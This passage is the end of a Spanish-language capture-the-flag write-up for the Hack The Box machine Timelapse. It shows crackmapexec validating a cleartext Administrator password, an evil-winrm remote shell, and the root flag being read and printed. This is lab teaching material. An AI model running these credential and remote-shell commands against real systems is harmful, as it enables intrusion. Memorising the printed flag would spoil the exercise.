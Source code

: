 ```console
```

Verificamos con crackmapexec que la contaseña sea del usuario Administrador

> crackmapexec smb 10.10.11.152 -u 'Administrator' -p '.IkjJZC#4C+E40La7$Dg/bnj'

```console
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\Administrator:.IkjJZC#4C+E40La7$Dg/bnj (Pwn3d!)
```

Por tanto nos conectamos con evil-winrm como Administrator y ah'i podemos obtener la flag de root

> evil-winrm -i 10.10.11.152 -u 'Administrator' -p '.IkjJZC#4C+E40La7$Dg/bnj' -S

```console
Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Buscando la root vemos que no se encuentra en el escritorio del usuario Administrador si no en el escritorio del usiario TRX

> *Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\Users
>
> *Evil-WinRM* PS C:\Users> cd TRX
>
> *Evil-WinRM* PS C:\Users\TRX> cd Desktop
>
> *Evil-WinRM* PS C:\Users\TRX\Desktop> type root.txt

```console
3db5a95ace32b9aa0de829ee1169aea7
```

## Estructura del directorio

```
├── content
│   ├── certificate.pem
│   ├── hash
│   ├── legacyy_dev_auth.pfx
│   ├── passwords
│   ├── priv-key.pem
│   ├── rockyou.txt
│   └── winrm_backup.zip
├── exploits
├── Images
├── nmap
│   ├── allPorts
│   └── targeted
├── Readme.md
└── scripts
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>